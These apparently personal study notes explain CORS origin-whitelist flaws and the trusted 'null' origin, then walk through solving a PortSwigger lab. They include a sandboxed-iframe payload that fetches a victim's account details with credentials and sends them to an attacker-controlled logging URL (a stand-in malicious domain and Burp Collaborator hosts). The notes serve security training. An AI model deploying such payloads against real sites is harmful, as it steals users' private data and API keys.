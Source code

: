 ## Errors parsing Origin headers

   - Some applications that support access from multiple origins do so by using a whitelist of allowed origins.
   - When a CORS request is received, the supplied origin is compared to the whitelist. If the origin appears on the whitelist then it is reflected in the `Access-Control-Allow-Origin` header so that access is granted.

**For example, the application receives a normal request like:**
```js
GET /data HTTP/1.1 
Host: normal-website.com 
... 
Origin: https://innocent-website.com
```

**The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:**
```js
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://innocent-website.com
```

   - Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence).
   - And some applications allow access from various other organizations' domains including their subdomains. These rules are often implemented by matching URL prefixes or suffixes, or using regular expressions.
   - Any mistakes in the implementation can lead to access being granted to unintended external domains.

**For example, suppose an application grants access to all domains ending in:**
```js
normal-website.com
```

**An attacker might be able to gain access by registering the domain:**
```js
hackersnormal-website.com
```

**Alternatively, suppose an application grants access to all domains beginning with**
```js
normal-website.com
```

**An attacker might be able to gain access using the domain:**
```js
normal-website.com.evil-user.net
```


## Whitelisted null origin value

**The specification for the Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:**
   - Cross-origin redirects.
   - Requests from serialized data.
   - Request using the `file:` protocol.
   - Sandboxed cross-origin requests.

**Some applications might whitelist the `null` origin to support local development of the application. For example, suppose an application receives the following cross-origin request:**
```js
GET /sensitive-victim-data 
Host: vulnerable-website.com 
Origin: null
```

**And the server responds with:**
```js
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```

In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header.
This will satisfy the whitelist, leading to cross-domain access.
**For example, this can be done using a sandboxed `iframe` cross-origin request of the form:**
```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

#### Origin: null - 

   - The "Origin: null" header signifies that the request did not come from a different origin but rather from the local file system or a non-HTTP context.
   - This can happen when you are working with local files or running a web page from the "file://" protocol (e.g., when testing a web page from your local computer without a web server). In such cases, the browser sets the "Origin" to "null" to indicate that the request doesn't have an origin associated with an HTTP server.

## Steps to solve lab
### Title - CORS vulnerability with trusted null origin

**Desc** - This website has an insecure [CORS](https://portswigger.net/web-security/cors) configuration in that it trusts the "null" origin. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

**Creds** - You can log in to your own account using the following credentials: `wiener:peter`


```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a5500a00415b6d18412f41c000b0046.web-security-academy.net/accountDetails',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
location='https://b3f1uqesak0cmcxhntst7ess9jfa30rp.oastify.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```


1. Try to find any CORS related headers in the application.
![[cors20.png]]
We got a end-point("/accountDetails"), which is most likely vulnerable. Let's test for it.

2. To test for CORS misconfiguration:
	1. We try to change the value of origin header to an arbitrary value.
	  **Before adding the Origin header** - 
	  ![[cors17.png]]
	  
	  **After adding the Origin header** - 
	  ![[cors18.png]]
	  As you can see above, it doesn't reflect value of "Origin" header in the "Access-Control-Allow-Origin" it means, it doesn't accept arbitrary origin.
	  
	  2. Change the origin header to null value.
	  **Before adding the Origin header** - 
	  ![[cors17.png]]
	  
	  **After adding the Origin header to null** - 
	  ![[cors19.png]]
	  As you can see above, you can not only have access to public resources but also have access to private resources because of "Access-Control-allow-Credentials" header is set.

3. Copy the below payload and paste it into the exploit server.
```js
<iframe style="display: none" sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0a3100d50409b288803eccdf00ee003d.web-security-academy.net/accountDetails',true); req.withCredentials = true; 
req.send(); 

function reqListener() { 
location='https://xstnjc3ez6pybym3cfhfw0hey54wsngc.oastify.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

![[cors21.png]]

We got a response in burp collaborator.
![[cors22.png]]

Decoding the api key.
![[cors23.png]]

submit the api key and the lab has been solved.
#### Payload Code explaination - 
`<iframe>`: This is an HTML element used to embed another web document within the current document.

`sandbox="allow-scripts allow-top-navigation allow-forms"`: The "sandbox" attribute is used to control the permissions and restrictions placed on the content displayed in the iframe. In this case, it allows scripts to run (`allow-scripts`), enables the iframe to navigate the top-level document (`allow-top-navigation`), and allows the use of forms (`allow-forms`).

`src="data:text/html,<script> ... </script>"`: The "src" attribute specifies the content that will be displayed within the iframe. In this case, the source is set to "data:text/html," followed by a `<script>` block containing JavaScript code. This code performs the following actions:
   - It sends an XMLHttpRequest (AJAX) request to the URL `https://0a5500a00415b6d18412f41c000b0046.web-security-academy.net/accountDetails`.
   - `req.withCredentials = true` indicates that the request should include credentials (e.g., cookies) when making the request.
   - When the request completes successfully, the `reqListener` function is executed. This function changes the location (URL) of the top-level document to a different URL (`https://b3f1uqesak0cmcxhntst7ess9jfa30rp.oastify.com/log?key=` followed by the response text).

The provided code seems to make a cross-origin request to `https://0a5500a00415b6d18412f41c000b0046.web-security-academy.net/accountDetails` and then redirects the top-level document to another URL with a query parameter (`key`) that contains the response text from the request.



For better understanding watch --> [[CORS_Lab_2_CORS vulnerability with trusted null origin _ Long Video.mp4]]

